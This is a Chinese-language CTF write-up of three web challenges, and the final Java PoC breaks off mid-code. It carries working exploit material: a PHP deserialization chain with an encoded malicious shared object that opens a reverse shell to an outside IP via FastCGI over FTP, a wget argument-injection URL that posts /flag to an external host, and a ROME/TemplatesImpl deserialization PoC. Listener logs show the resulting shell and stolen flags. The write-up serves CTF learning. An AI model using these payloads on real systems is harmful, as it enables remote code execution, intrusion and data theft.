

# 前言

题挺有意思的，Web有点难，而且后面三道难题放的有点晚了，时间不够（肝了一下午的Java）。这个比赛的难度，能早9晚9的话可能还好一些，早9晚5就有点紧了。

Java还是太菜了，需要学很多的东西。


# eaaasyphp

反序列化链的构造很简单就不提了，正常构造写文件发现应该是不行的，目录应该不可写。给了个Hint类里面提示phpinfo，那打一下phpinfo看一下：

```php
class Bypass {
    public function __construct(){
        $this->str4 = "phpinfo";
        $this->feng = new Esle();
    }

/*    public function __destruct()
    {
        if (Check::$str1) {
            ($this->str4)();
        } else {
            //throw new Error("Error");
        }
    }*/
}
echo urlencode(serialize(new Bypass()));
```

发现有fastcgi，再联想到利用的这里：

```php
file_put_contents($this->filename, $this->data);
```

很容易想到利用ftp被动模式打fastcgi了。

流程按蓝帽杯那题来就行了，不细锁了。先把恶意类的so打过去，把它写在`/tmp/feng.so`：

```python
import base64

import requests

payload="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HAAAAFwAAAAa////EwAAAABBDhCGAkMNBk4MBwgAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACAGAAAAAAAA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AAAAAAAAAAB3AQAAIgAAAAAAAAAAAAAAAAAAAAAAAACTAQAAEgAJAAAFAAAAAAAAAAAAAAAAAAAAY3J0c3R1ZmYuYwBkZXJlZ2lzdGVyX3RtX2Nsb25lcwBfX2RvX2dsb2JhbF9kdG9yc19hdXgAY29tcGxldGVkLjc2OTgAX19kb19nbG9iYWxfZHRvcnNfYXV4X2ZpbmlfYXJyYXlfZW50cnkAZnJhbWVfZHVtbXkAX19mcmFtZV9kdW1teV9pbml0X2FycmF5X2VudHJ5AGhhY2suYwBfX0ZSQU1FX0VORF9fAF9fZHNvX2hhbmRsZQBfRFlOQU1JQwBfX0dOVV9FSF9GUkFNRV9IRFIAX19UTUNfRU5EX18AX0dMT0JBTF9PRkZTRVRfVEFCTEVfAF9JVE1fZGVyZWdpc3RlclRNQ2xvbmVUYWJsZQBfZWRhdGEAX2ZpbmkAc3lzdGVtQEBHTElCQ18yLjIuNQBfX2dtb25fc3RhcnRfXwBfZW5kAF9fYnNzX3N0YXJ0AHByZWxvYWQAX0lUTV9yZWdpc3RlclRNQ2xvbmVUYWJsZQBfX2N4YV9maW5hbGl6ZUBAR0xJQkNfMi4yLjUAX2luaXQAAC5zeW10YWIALnN0cnRhYgAuc2hzdHJ0YWIALm5vdGUuZ251LmJ1aWxkLWlkAC5nbnUuaGFzaAAuZHluc3ltAC5keW5zdHIALmdudS52ZXJzaW9uAC5nbnUudmVyc2lvbl9yAC5yZWxhLmR5bgAucmVsYS5wbHQALmluaXQALnBsdC5nb3QALnRleHQALmZpbmkALnJvZGF0YQAuZWhfZnJhbWVfaGRyAC5laF9mcmFtZQAuaW5pdF9hcnJheQAuZmluaV9hcnJheQAuZHluYW1pYwAuZ290LnBsdAAuZGF0YQAuYnNzAC5jb21tZW50AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAbAAAABwAAAAIAAAAAAAAAyAEAAAAAAADIAQAAAAAAACQAAAAAAAAAAAAAAAAAAAAEAAAAAAAAAAAAAAAAAAAALgAAAPb//28CAAAAAAAAAPABAAAAAAAA8AEAAAAAAAA8AAAAAAAAAAMAAAAAAAAACAAAAAAAAAAAAAAAAAAAADgAAAALAAAAAgAAAAAAAAAwAgAAAAAAADACAAAAAAAAIAEAAAAAAAAEAAAAAQAAAAgAAAAAAAAAGAAAAAAAAABAAAAAAwAAAAIAAAAAAAAAUAMAAAAAAABQAwAAAAAAAJ4AAAAAAAAAAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAASAAAAP///28CAAAAAAAAAO4DAAAAAAAA7gMAAAAAAAAYAAAAAAAAAAMAAAAAAAAAAgAAAAAAAAACAAAAAAAAAFUAAAD+//9vAgAAAAAAAAAIBAAAAAAAAAgEAAAAAAAAIAAAAAAAAAAEAAAAAQAAAAgAAAAAAAAAAAAAAAAAAABkAAAABAAAAAIAAAAAAAAAKAQAAAAAAAAoBAAAAAAAAMAAAAAAAAAAAwAAAAAAAAAIAAAAAAAAABgAAAAAAAAAbgAAAAQAAABCAAAAAAAAAOgEAAAAAAAA6AQAAAAAAAAYAAAAAAAAAAMAAAAVAAAACAAAAAAAAAAYAAAAAAAAAHgAAAABAAAABgAAAAAAAAAABQAAAAAAAAAFAAAAAAAAFwAAAAAAAAAAAAAAAAAAAAQAAAAAAAAAAAAAAAAAAABzAAAAAQAAAAYAAAAAAAAAIAUAAAAAAAAgBQAAAAAAACAAAAAAAAAAAAAAAAAAAAAQAAAAAAAAABAAAAAAAAAAfgAAAAEAAAAGAAAAAAAAAEAFAAAAAAAAQAUAAAAAAAAIAAAAAAAAAAAAAAAAAAAACAAAAAAAAAAIAAAAAAAAAIcAAAABAAAABgAAAAAAAABQBQAAAAAAAFAFAAAAAAAA7QAAAAAAAAAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAACNAAAAAQAAAAYAAAAAAAAAQAYAAAAAAABABgAAAAAAAAkAAAAAAAAAAAAAAAAAAAAEAAAAAAAAAAAAAAAAAAAAkwAAAAEAAAACAAAAAAAAAFAGAAAAAAAAUAYAAAAAAAA3AAAAAAAAAAAAAAAAAAAACAAAAAAAAAAAAAAAAAAAAJsAAAABAAAAAgAAAAAAAACIBgAAAAAAAIgGAAAAAAAAJAAAAAAAAAAAAAAAAAAAAAQAAAAAAAAAAAAAAAAAAACpAAAAAQAAAAIAAAAAAAAAsAYAAAAAAACwBgAAAAAAAHwAAAAAAAAAAAAAAAAAAAAIAAAAAAAAAAAAAAAAAAAAswAAAA4AAAADAAAAAAAAAAgOIAAAAAAACA4AAAAAAAAQAAAAAAAAAAAAAAAAAAAACAAAAAAAAAAIAAAAAAAAAL8AAAAPAAAAAwAAAAAAAAAYDiAAAAAAABgOAAAAAAAACAAAAAAAAAAAAAAAAAAAAAgAAAAAAAAACAAAAAAAAADLAAAABgAAAAMAAAAAAAAAIA4gAAAAAAAgDgAAAAAAAMABAAAAAAAABAAAAAAAAAAIAAAAAAAAABAAAAAAAAAAggAAAAEAAAADAAAAAAAAAOAPIAAAAAAA4A8AAAAAAAAgAAAAAAAAAAAAAAAAAAAACAAAAAAAAAAIAAAAAAAAANQAAAABAAAAAwAAAAAAAAAAECAAAAAAAAAQAAAAAAAAIAAAAAAAAAAAAAAAAAAAAAgAAAAAAAAACAAAAAAAAADdAAAAAQAAAAMAAAAAAAAAIBAgAAAAAAAgEAAAAAAAAAgAAAAAAAAAAAAAAAAAAAAIAAAAAAAAAAAAAAAAAAAA4wAAAAgAAAADAAAAAAAAACgQIAAAAAAAKBAAAAAAAAAIAAAAAAAAAAAAAAAAAAAAAQAAAAAAAAAAAAAAAAAAAOgAAAABAAAAMAAAAAAAAAAAAAAAAAAAACgQAAAAAAAAKQAAAAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAAAABAAAAAgAAAAAAAAAAAAAAAAAAAAAAAABYEAAAAAAAAPgEAAAAAAAAGgAAACoAAAAIAAAAAAAAABgAAAAAAAAACQAAAAMAAAAAAAAAAAAAAAAAAAAAAAAAUBUAAAAAAACZAQAAAAAAAAAAAAAAAAAAAQAAAAAAAAAAAAAAAAAAABEAAAADAAAAAAAAAAAAAAAAAAAAAAAAAOkWAAAAAAAA8QAAAAAAAAAAAAAAAAAAAAEAAAAAAAAAAAAAAAAAAAA="

url="http://cf41a4b5-d2b7-490f-93c5-5b32adf39563.node4.buuoj.cn:81/"

params = {
    "code":'O:6:"Bypass":2:{s:4:"str4";O:7:"Welcome":1:{s:8:"username";O:5:"Bunny":1:{s:8:"filename";s:12:"/tmp/feng.so";}}s:4:"feng";O:4:"Esle":0:{}}'
}
data={
    "data":base64.b64decode(payload)
}
r=requests.post(url=url,params=params,data=data)

```

ftp那边起，nc起，然后payload打过去就行了：

```php
<?php

class Check {
    public static $str1 = false;
    public static $str2 = false;
}


class Esle {
    public function __wakeup()
    {
        Check::$str1 = true;
    }
}


class Hint {

    public function __wakeup(){
        $this->hint = "no hint";
    }

    public function __destruct(){
        if(!$this->hint){
            $this->hint = "phpinfo";
            ($this->hint)();
        }
    }
}


class Bunny {
    public function __construct(){
        $this->filename="ftp://121.5.169.223:39444/1";
        $this->data = urldecode("%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%9C%00%00%11%0BGATEWAY_INTERFACEFastCGI%2F1.0%0E%04REQUEST_METHODPOST%0F%16SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Fuser.php%0B%09SCRIPT_NAME%2Fuser.php%0B%09REQUEST_URI%2Fuser.php%0F%29PHP_ADMIN_VALUEextension_dir+%3D+%2Ftmp%0Aextension+%3D+feng.so%0A%0F%11SERVER_SOFTWAREphp%2Ffastcgiclient%0B%09REMOTE_ADDR127.0.0.1%0B%04REMOTE_PORT9985%0B%09SERVER_ADDR127.0.0.1%0B%02SERVER_PORT80%0B%09SERVER_NAMElocalhost%0F%08SERVER_PROTOCOLHTTP%2F1.1%0C%21CONTENT_TYPEapplication%2Fx-www-form-urlencoded%0E%01CONTENT_LENGTH0%01%04%00%01%00%00%00%00%01%05%00%01%00%00%00%00");
    }

    public function __toString()
    {
        if (Check::$str2) {
            if(!$this->data){
                $this->data = $_REQUEST['data'];
            }
            file_put_contents($this->filename, $this->data);
        } else {
            throw new Error("Error");
        }
    }
}

class Welcome {
    public function __construct(){
        $this->username = new Bunny();
    }
    public function __invoke()
    {
        Check::$str2 = true;
        return "Welcome" . $this->username;
    }
}

class Bypass {
    public function __construct(){
        $this->str4 = new Welcome();
        $this->feng = new Esle();
    }

/*    public function __destruct()
    {
        if (Check::$str1) {
            ($this->str4)();
        } else {
            //throw new Error("Error");
        }
    }*/
}
echo urlencode(serialize(new Bypass()));
```

```
http://cf41a4b5-d2b7-490f-93c5-5b32adf39563.node4.buuoj.cn:81/?code=O%3A6%3A%22Bypass%22%3A2%3A%7Bs%3A4%3A%22str4%22%3BO%3A7%3A%22Welcome%22%3A1%3A%7Bs%3A8%3A%22username%22%3BO%3A5%3A%22Bunny%22%3A2%3A%7Bs%3A8%3A%22filename%22%3Bs%3A27%3A%22ftp%3A%2F%2F121.5.169.223%3A39444%2F1%22%3Bs%3A4%3A%22data%22%3Bs%3A452%3A%22%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%9C%00%00%11%0BGATEWAY_INTERFACEFastCGI%2F1.0%0E%04REQUEST_METHODPOST%0F%16SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Fuser.php%0B%09SCRIPT_NAME%2Fuser.php%0B%09REQUEST_URI%2Fuser.php%0F%29PHP_ADMIN_VALUEextension_dir+%3D+%2Ftmp%0Aextension+%3D+feng.so%0A%0F%11SERVER_SOFTWAREphp%2Ffastcgiclient%0B%09REMOTE_ADDR127.0.0.1%0B%04REMOTE_PORT9985%0B%09SERVER_ADDR127.0.0.1%0B%02SERVER_PORT80%0B%09SERVER_NAMElocalhost%0F%08SERVER_PROTOCOLHTTP%2F1.1%0C%21CONTENT_TYPEapplication%2Fx-www-form-urlencoded%0E%01CONTENT_LENGTH0%01%04%00%01%00%00%00%00%01%05%00%01%00%00%00%00%22%3B%7D%7Ds%3A4%3A%22feng%22%3BO%3A4%3A%22Esle%22%3A0%3A%7B%7D%7D
```

```shell
root@VM-0-6-ubuntu:~# nc -lvvp 39876
Listening on [0.0.0.0] (family 0, port 39876)
Connection from 117.21.200.166 64381 received!
bash: cannot set terminal process group (24): Inappropriate ioctl for device
bash: no job control in this shell
www-data@a4c71746264f:~/html$ ls
ls
index.php
www-data@a4c71746264f:~/html$ cd /
cd /
www-data@a4c71746264f:/$ ls
ls
bin
boot
dev
etc
flag
home
lib
lib64
media
mnt
opt
php.ini
proc
root
run
sbin
srv
sudoers
sys
tmp
usr
var
www-data@a4c71746264f:/$ cat /flag
cat /flag
flag{b483c338-32f1-48a9-819f-72e276607834}

```


# CheckIN

一道Go的代码审计，大致扫一遍应该就知道了，`/wget`是利用到，但是似乎鉴权没有做：

```go
    router.GET("/wget", getController)
```

```go
func getController(c *gin.Context) {


    cmd := exec.Command("/bin/wget", c.QueryArray("argv")[1:]...)
    err := cmd.Run()
    if err != nil {
        fmt.Println("error: ", err)
    }
    
    c.String(http.StatusOK, "Nothing")
}
```

直接能执行命令了，拿wget把flag带出来即可：

```
/wget?argv=1&argv=--post-file&argv=/flag&argv=http://121.5.169.223:39876/
```

```shell
root@VM-0-6-ubuntu:~# nc -lvvp 39876
Listening on [0.0.0.0] (family 0, port 39876)
Connection from 117.21.200.166 37526 received!
POST / HTTP/1.1
User-Agent: Wget/1.20.3 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 121.5.169.223:39876
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 43

flag{88729834-1693-4af8-abba-0ebf6bd84ec2}


```

# EasyJaba

给了个反序列化的入口，而且调用了`toString()`方法：

```java
    @ResponseBody
    @RequestMapping({"/BackDoor"})
    public String BackDoor(@RequestParam(name = "ctf",required = true) String data) throws Exception {
        Set blacklist = new HashSet() {
            {
                this.add("java.util.HashMap");
                this.add("javax.management.BadAttributeValueExpException");
            }
        };
        Object object = null;
        byte[] b = Tool.base64Decode(data);
        InputStream inputStream = new ByteArrayInputStream(b);
        BlacklistObjectInputStream ois = new BlacklistObjectInputStream(inputStream, blacklist);

        try {
            object = ois.readObject();
        } catch (IOException var12) {
            var12.printStackTrace();
        } catch (ClassNotFoundException var13) {
            var13.printStackTrace();
        } finally {
            System.out.println("information:" + object.toString());
        }

        return "calm down....";
    }
```

但是有黑名单，看一下pom.xml：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>
    <parent>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-parent</artifactId>
        <version>2.5.6</version>
        <relativePath/> <!-- lookup parent from repository -->
    </parent>
    <groupId>com.kyzy.ctf</groupId>
    <artifactId>ezjaba</artifactId>
    <version>0.0.1-SNAPSHOT</version>
    <name>ezjaba</name>
    <description>Demo project for Spring Boot</description>
    <properties>
        <java.version>1.8</java.version>
    </properties>
    <dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-test</artifactId>
            <scope>test</scope>
        </dependency>
        <dependency>
            <groupId>rome</groupId>
            <artifactId>rome</artifactId>
            <version>1.0</version>
        </dependency>
    </dependencies>

    <build>
        <plugins>
            <plugin>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-maven-plugin</artifactId>
            </plugin>
        </plugins>
    </build>

</project>

```


有个rome显得很突兀，查一下确实有个链可以rce，但是需要用到被ban了的HashMap。但用到HashMap其实只是为了在Gadget中调用到那个toString，但本题已经显示的调用了，所以从网上找POC改一下即可：

```java
package com.summer.test;


import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.ObjectBean;
import javax.xml.transform.Templates;
import java.io.ByteArrayOutputStream;

import java.io.ObjectOutputStream;

import java.lang.reflect.Field;

import java.util.Base64;

public class Test {

    public static class StaticBlock { }
    public static void main(String[] args) throws Exception {
        byte[][] bytecodes = new byte[][]{Base64.getDecoder().decode("xxx")};


        // 实例化类并设置属性
        TemplatesImpl templatesimpl = new TemplatesImpl();
        Field fieldByteCodes = templatesimpl.getClass().getDeclaredField("_bytecodes");
        fieldByteCodes.setAccessible(true);
        fieldByteCodes.set(templatesimpl, bytecodes);

        Field fieldName = templatesimpl.getClass().getDeclaredField("_name");
        fieldName.setAccessible(true);
